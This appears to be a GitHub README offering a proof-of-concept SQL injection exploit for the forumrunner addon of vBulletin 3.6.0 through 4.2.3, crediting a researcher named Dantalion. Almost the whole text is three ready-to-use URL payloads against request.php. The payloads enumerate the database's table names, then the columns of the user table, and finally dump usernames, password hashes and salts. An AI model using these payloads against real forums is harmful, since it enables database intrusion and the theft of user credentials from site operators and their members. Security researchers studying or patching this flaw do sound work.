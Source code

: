 # vBulletin-forum-runner-SQL-Injection
VBulletin version 3.6.0 through 4.2.3 are vulnerable to SQL injection vulnerability in vBulletin core forumrunner addon. 
Vulnerability was analized and documented by Dantalion (https://enumerated.wordpress.com/2016/07/11/1/) 
so credit goes to Dantalion only :) 

////////////////
///  POC   ////
///////////////

SQL Injection payload to enumerate table names
----------------------------------------------
http://forum_directory/forumrunner/request.php?d=1&cmd=get_spam_data&postids=-1)union select 1,2,3,(select (@x) from (select (@x:=0x00),(select (0) from (information_schema.tables)where (table_schema=database()) and (0x00) in (@x:=concat(@x,0x3c62723e,table_name))))x),5,6,7,8,9,10-- -


SQL Injection payload to enumerate column names from table "user"
----------------------------------------------------------------
http://forum_directory/forumrunner/request.php?d=1&cmd=get_spam_data&postids=-1)union select 1,2,3,(select (@x) from (select (@x:=0x00),(select (0) from (information_schema.columns)where (table_name=0x75736572) and (0x00) in (@x:=concat(@x,0x3c62723e,column_name))))x),5,6,7,8,9,10-- -


SQL Injection payload to enumerate username,password hash and salt from "user" table
----------------------------------------------------------------------------------
http://forum_directory//forumrunner/request.php?d=1&cmd=get_spam_data&postids=-1)union select 1,2,3,(select (@x) from (select (@x:=0x00),(select (0) from (user)where (0x00) in (@x:=concat(@x,0x3c62723e,username,0x3a,password,0x3a,salt))))x),5,6,7,8,9,10-- -

/////////////////
exploit code ends here
